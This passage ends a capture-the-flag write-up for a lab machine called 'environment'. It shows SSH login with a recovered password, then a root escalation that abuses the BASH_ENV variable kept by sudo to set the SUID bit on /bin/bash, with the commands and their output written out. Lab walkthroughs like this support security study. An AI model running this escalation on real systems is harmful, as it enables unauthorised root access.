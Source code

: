 We try to use `marineSPm@ster!!` as password to login via SSH:

```bash
ssh hish@environment.htb
whoami
```
```
hish
```

We check if we can use sudo to run commands as root:

```bash
sudo -l
```
```
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

We see that there is a special option for the user `hish` while using `sudo`: 
- `env_keep+="ENV BASH_ENV"` means that the environment variables `ENV` and `BASH_ENV` are preserved when running commands with `sudo`.

These variables can hold scripts that are executed by the shell when it starts in interactive mode (for `ENV`) or when it starts in non-interactive mode (for `BASH_ENV`).

We can use this to our advantage:
```bash
echo "#!/bin/bash
chmod +s /bin/bash" > /tmp/pwn.sh
chmod +x /tmp/pwn.sh
export BASH_ENV=/tmp/pwn.sh
sudo /usr/bin/systeminfo

/bin/bash -p
whoami
```
```
root
```

We can see that we have a root shell now. We can find the root flag in the root directory:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
In this writeup, we successfully exploited the target machine by leveraging a misconfiguration in the login system to gain user access, then escalated our privileges to root by exploiting the environment variables preserved during `sudo` execution. We were able to retrieve both user and root flags, completing the challenge.
